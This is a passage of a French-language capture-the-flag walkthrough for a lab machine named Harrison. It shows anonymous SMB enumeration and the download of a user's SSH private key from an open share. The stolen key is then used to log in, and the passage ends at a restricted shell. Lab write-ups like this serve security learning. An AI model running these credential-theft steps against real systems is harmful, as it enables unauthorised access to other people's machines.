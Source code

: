 ```bash
$ smbclient -U "" -N -L //192.168.56.80

        Sharename       Type      Comment
        ---------       ----      -------
        Private         Disk      
        IPC$            IPC       IPC Service (Samba 4.7.6-Ubuntu)
SMB1 disabled -- no workgroup available
$ smbclient -U "" -N //192.168.56.80/Private
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Apr 18 18:55:51 2019
  ..                                  D        0  Thu Apr 18 18:12:55 2019
  .bash_logout                        H      220  Wed Apr  4 20:30:26 2018
  .profile                            H      807  Wed Apr  4 20:30:26 2018
  .bashrc                             H     3771  Wed Apr  4 20:30:26 2018
  silly_cats                          D        0  Thu Apr 18 18:55:51 2019
  .ssh                               DH        0  Thu Apr 18 18:42:57 2019
  flag.txt                            N       32  Thu Apr 18 18:14:18 2019

                32894736 blocks of size 1024. 27322872 blocks available
smb: \> cd .ssh
smb: \.ssh\> ls
  .                                   D        0  Thu Apr 18 18:42:57 2019
  ..                                  D        0  Thu Apr 18 18:55:51 2019
  authorized_keys                     N      399  Thu Apr 18 18:42:57 2019
  id_rsa                              A     1679  Thu Apr 18 18:14:17 2019
  id_rsa.pub                          A      399  Thu Apr 18 18:14:17 2019

                32894736 blocks of size 1024. 27322872 blocks available
smb: \.ssh\> get id_rsa
getting file \.ssh\id_rsa of size 1679 as id_rsa (409,9 KiloBytes/sec) (average 409,9 KiloBytes/sec)
smb: \.ssh\> pwd
Current directory is \\192.168.56.80\Private\.ssh\
smb: \.ssh\> get id_rsa.pub
getting file \.ssh\id_rsa.pub of size 399 as id_rsa.pub (97,4 KiloBytes/sec) (average 253,7 KiloBytes/sec)
```

## Prison break

J'ai choppé la clé privée SSH comme ça on peut obtenir notre shell mais on découvre bien vite qu'il est limité :

```
$ ssh -i id_rsa harrison@192.168.56.80

Welcome to Harrison. Enjoy your shell.

Type '?' or 'help' to get the list of allowed commands
harrison:~$ id
*** forbidden command: id
```
